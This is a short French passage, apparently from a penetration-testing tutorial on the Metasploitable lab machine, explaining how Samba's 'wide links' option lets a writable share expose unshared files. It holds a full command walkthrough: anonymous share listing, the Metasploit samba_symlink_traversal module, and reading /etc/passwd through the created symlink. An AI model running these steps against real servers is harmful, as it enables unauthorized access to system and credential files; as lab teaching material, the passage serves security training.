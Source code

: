 Samba est une implémentation libre des protocoles SMB \(Server Message Block\) et CIFS \(Common Internet File System\).

Samba fournit des services et fichiers d’impression pour des clients Windows et peut s’intégrer à un domaine Windows Server.

Samba, lorsqu’il est configuré avec un fichier partagé en écriture et avec l’option « wide links » validée \(« on » par défaut\), peut aussi être utilisé comme une backdoor de façon à accéder à des fichiers qui n’ont pas été partagés. L’exemple ci-dessous utilise un module Metasploit pour obtenir un accès au système de fichiers de l’utilisateur root avec une connexion anonyme.

```text

root@ubuntu:~# smbclient -L //192.168.1.131 
Anonymous login successful 
Domain=[WORKGROUP] OS=[Unix] Server=[Samba 3.0.20-Debian] 
        Sharename       Type      Comment 
        ---------       ----      ------- 
        print$          Disk      Printer Drivers 
        tmp             Disk      oh noes! 
        opt             Disk       
        IPC$            IPC       IPC Service (metasploitable 
server (Samba 3.0.20-Debian)) 
        ADMIN$          IPC       IPC Service (metasploitable 
server (Samba 3.0.20-Debian)) 
 
root@ubuntu:~# msfconsole 
msf > use auxiliary/admin/smb/samba_symlink_traversal  
msf  auxiliary(samba_symlink_traversal) > set RHOST 192.168.1.131 
msf  auxiliary(samba_symlink_traversal) > set SMBSHARE tmp 
msf  auxiliary(samba_symlink_traversal) > exploit  
 
[*] Connecting to the server... 
[*] Trying to mount writeable share 'tmp'... 
[*] Trying to link 'rootfs' to the root filesystem... 
[*] Now access the following share to browse the root filesystem: 
[*]     \\192.168.1.131\tmp\rootfs\ 
 
msf  auxiliary(samba_symlink_traversal) > exit 
 
root@ubuntu:~# smbclient //192.168.1.131/tmp 
Anonymous login successful 
Domain=[WORKGROUP] OS=[Unix] Server=[Samba 3.0.20-Debian] 
smb: \> cd rootfs 
smb: \rootfs\> cd etc 
smb: \rootfs\etc\> more passwd 
getting file \rootfs\etc\passwd of size 1624 as 
/tmp/smbmore.ufiyQf (317.2 KiloBytes/sec) (average 317.2 
KiloBytes/sec) 
root:x:0:0:root:/root:/bin/bash 
daemon:x:1:1:daemon:/usr/sbin:/bin/sh 
bin:x:2:2:bin:/bin:/bin/sh 
[..]
```
